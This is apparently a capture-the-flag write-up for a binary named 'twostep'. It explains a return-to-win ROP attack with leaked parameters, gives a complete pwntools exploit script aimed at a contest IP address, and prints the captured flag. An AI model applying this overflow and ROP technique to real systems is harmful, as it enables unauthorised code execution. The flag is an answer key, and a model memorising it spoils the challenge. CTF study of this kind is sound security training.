

```sh
checksec --file twostep
```



we go the the function right_foot_creep1 to set var=1 first

We need to supply corrct aruguments to `right_foot_creep1` and `left2_foot_creep_FORBIDDEN` and before calling `left2_foot_creep_FORBIDDEN` we need to call `right_foot_creep1` to set variable value `1` which is necessary

This is return to win with parameters
Also the arguments that we have to pass are being leaked by the binary, here is the solve script
We need to pass the arguments as integers so make sure to have correct format

```python
#!/usr/bin/env python3

from pwn import *

exe = './twostep'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

padding = 440

p = remote('165.227.103.166', 6003)

output = p.recv()
pattern = r'(\d+) HOURS and (\d+) MINUTES'
ar = re.findall(pattern, output.decode('utf-8'))
print(ar)
arg1, arg2 = ar[0]
# ROP object


rop = ROP(elf)
rop.right_foot_creep1(int(arg1))
rop.left2_foot_creep_FORBIDDEN(int(arg2))

# Build the payload
payload = flat(
    asm('nop')*padding,
    rop.chain()
)

# Save the payload to file
write('payload', payload)

# Send the payload
p.sendline(payload)

# Get flag
p.interactive()
```

**_flag : CIT{n0w_y3r_d4nc1n_thE_t3xas_2step_wbiw28qfe3gr1ddyBiq093kt310}_**
